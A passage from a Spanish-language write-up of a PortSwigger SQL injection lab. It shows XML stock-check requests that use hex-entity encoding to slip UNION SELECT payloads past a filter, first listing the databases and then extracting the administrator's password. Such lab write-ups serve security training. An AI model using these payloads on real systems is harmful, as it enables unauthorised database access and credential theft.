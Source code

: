 Y ahora en este caso podemos apreciar que ya nos responde la petición inyectada:

![null](/assets/images/SQLiPortswigger/lab17/null.png)

Vemos que nos dice NULL, por lo que sabemos que esta columna puede ser de tipo carácter, así que trataremos de dumpear datos, por ejemplo las bases de datos:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
			8
		</productId>
		<storeId>
			<@hex_entities>
				2 UNION SELECT schema_name FROM information_schema.schemata  -- -
			<@/hex_entities>
		</storeId>
	</stockCheck>
```

Y vemos que nos responde:

![dump](/assets/images/SQLiPortswigger/lab17/dump.png)

Podemos apreciar que nos devolvió las bases de datos, por lo que es vulnerable, como ya nos dieron el usuario y la tabla con sus columnas simplemente enumeraremos la password para terminar este último laboratorio:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
			8
		</productId>
		<storeId>
			<@hex_entities>
				2 UNION SELECT password FROM users WHERE username='administrator' -- -
			<@/hex_entities>
		</storeId>
	</stockCheck>
```
